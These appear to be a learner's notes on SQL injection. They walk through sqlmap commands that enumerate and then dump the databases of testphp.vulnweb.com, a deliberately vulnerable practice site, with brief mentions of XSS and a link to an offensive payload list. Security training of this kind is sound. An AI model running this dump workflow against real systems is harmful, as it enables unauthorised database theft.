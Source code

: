 # SQL INJECTIONS
- testphp.vulnweb.com - Our test site
- In Kali Linux itself we have a tool for sql injections called as sqlmap
- ```sudo apt install sqlmap```
-  man db - manual database
- verbosity -v0----v6.
- OWASP ZAP- An automation tool to find the known vulnerabilities 
- -   **Cross-Site Scripting (XSS):** Attackers inject malicious scripts into websites to steal data or hijack sessions.
- eg-<script>alert('Sumit')</script>
-   **HTML Injections:** Inserting malicious HTML code to manipulate or harm users accessing web pages.
- Repository for payloads- [InfoSecWarrior/Offensive-Payloads: List of payloads and wordlists that are specifically crafted to identify and exploit vulnerabilities in target web applications. (github.com)](https://github.com/InfoSecWarrior/Offensive-Payloads)
- We can add them to BurpSuite and bruteforce 
- We may use different options while using sqlmap
- For the time being we go with ```sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -dbs```
- (getting info about database)
- union query - a combination of data base
- We get to know about the two databases- acuart and information_schema
- ```sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -D acuart --tables```
- from among the table we need to guess which data can be most confidential data(users)
- ```sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -D acuart -T users --columns```
- Now the hacker will want to download the data by -
- ```sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=2 -D acuart --tables --dump-all```
- Keep a note of the location where the file is saved 
